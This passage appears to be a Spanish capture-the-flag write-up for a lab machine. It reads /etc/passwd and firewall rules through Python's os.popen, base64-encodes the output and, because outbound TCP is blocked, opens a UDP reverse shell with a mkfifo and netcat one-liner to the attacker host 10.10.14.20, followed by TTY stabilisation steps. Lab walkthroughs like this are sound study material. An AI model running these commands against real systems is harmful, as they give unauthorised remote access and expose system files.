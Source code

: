 ```bash
 os.popen('cat /etc/passwd').read() 
```
 nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando

```bash
 echo "<cadena codificada en base64>" | base64 -d; echo 
```


```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea 
```bash
 -A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP 
```
 que la maquina victima nos
va a rechazar todas las comunicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 ## Explotacion de vulnerabilidad & Ganando acceso {-}

### Reverse shell por UDP {-}

1. En la maquina de atacante con el parametro 
```bash
 -u 
```


    ```bash
    nc -u -nlvp 443
    ```

1.en la consola interactiva

    ```python
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
    ```

Y ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

